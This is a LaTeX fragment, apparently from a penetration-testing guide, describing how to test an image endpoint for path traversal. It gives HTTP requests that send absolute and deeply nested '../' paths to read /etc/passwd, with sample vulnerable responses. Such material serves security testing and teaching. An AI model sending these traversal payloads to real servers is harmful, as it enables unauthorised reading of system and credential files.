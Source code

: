 \documentclass[11pt,letterpaper]{article}
\begin{document}
\subsubsection{Test 1: Absolute Path Acceptance}

\begin{lstlisting}[language=http,caption={Testing if absolute paths are accepted}]
GET /image?filename=/etc/passwd HTTP/1.1
Host: target.example.com

-- Possible responses --

Response A (Vulnerable to absolute paths):
HTTP/1.1 200 OK
root:x:0:0:root:/root:/bin/bash
...

Response B (Absolute paths rejected):
HTTP/1.1 400 Bad Request
No such file

Response C (Path prepended, file not found):
HTTP/1.1 404 Not Found
File not found: /var/www/images//etc/passwd
\end{lstlisting}

\subsubsection{Test 2: Relative Path Traversal}

\begin{lstlisting}[language=http,caption={Testing relative path traversal with varying depth}]
-- Start with minimal traversal --
GET /image?filename=../etc/passwd HTTP/1.1

-- Increase depth progressively --
GET /image?filename=../../etc/passwd HTTP/1.1
GET /image?filename=../../../etc/passwd HTTP/1.1
GET /image?filename=../../../../etc/passwd HTTP/1.1

-- Use excessive depth to ensure reaching root --
GET /image?filename=../../../../../../../../../etc/passwd HTTP/1.1

-- If successful --
HTTP/1.1 200 OK
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{lstlisting}

\section{Manual Exploitation Workflow}

\subsection{Pre-Assessment Setup}
\end{document}
